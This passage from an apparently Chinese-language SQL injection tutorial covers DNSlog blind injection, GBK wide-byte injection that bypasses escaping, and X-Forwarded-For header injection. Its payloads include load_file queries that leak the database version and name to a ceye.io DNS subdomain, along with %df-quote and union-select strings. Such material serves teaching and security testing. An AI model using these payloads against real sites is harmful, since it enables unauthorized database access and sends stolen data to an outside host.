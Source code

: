 比如构造如下语句：

```
?id=1 and if((select load_file(concat('////',(select version()),'.yk2kql.ceye.io//abc'))),0,1)--+
```

**工具**：http://ceye.io，注册后可以获得个人的DNS地址：

![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/9ded59fe90f60d1cdb4049308f40ac2abe13467b.png@725w_165h_progressive.webp)

成功注入之后，可以在ceye.io网站看到所访问的链接，其中包含了version()数据库版本信息5.5.53.1。

![image-20220728101718259](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220728101718259.png)

或者查看数据库名称：

```
?id=1 and if((select load_file(concat('////',(select database()),'.yk2kql.ceye.io//abc'))),0,1)--+
```

![image-20220814095417887](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220814095417887.png)

参考资料：https://www.cnblogs.com/xhds/p/12322839.html

使用DnsLog盲注仅限于windos环境。

- **使用工具DnslogSqlinj**

  https://github.com/ADOOO/DnslogSqlinj

  ![image-20220728102540802](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220728102540802.png)

  ![image-20220728102804316](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220728102804316.png)

  获取数据库名称：

  ![image-20220728103014120](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220728103014120.png)

### 宽字节注入（绕过转义）

当网站对参数进行了转义时，单引号等会被转义符（反斜杠）转义，导致攻击语句失效。所以在一般情况下，此处是不存在SQL注入漏洞的。

不过有一个特例，就是当数据库的编码为GBK时，可以使用宽字节注入，宽字节的格式是在单引号前会先加个%df。这样就变成了`id=1%df'`，经过转义就是`id=1%df%5c'`。因为反斜杠的编码为%5c，而在GBK编码中，%df%5c是繁体字"連”，所以这时，单引号成功被读入。

所以可以构造攻击语句：`id=1%df' and 1=1%23`进行注入点的判断。

### XFF注入

XFF是HTTP请求头中的一个头部参数X-Forwarded- for。X- Forwarded- For简称XFF头，它代表客户端真实的IP。

通过修改X-Forwarded-for的值可以伪造客户端IP，将X Forwarded -for设置为127.0.0.1，然后访问该URL，页面返回正常。

如果网站有通过诸如$_SERVER之类的函数获取XFF，并用于SQL语句，那么就可以尝试进行注入。

比如构造攻击语句：`X Forwarded -for=127.0.0.1' union select 1,2,3,4#`

## 7. SQL注入类型
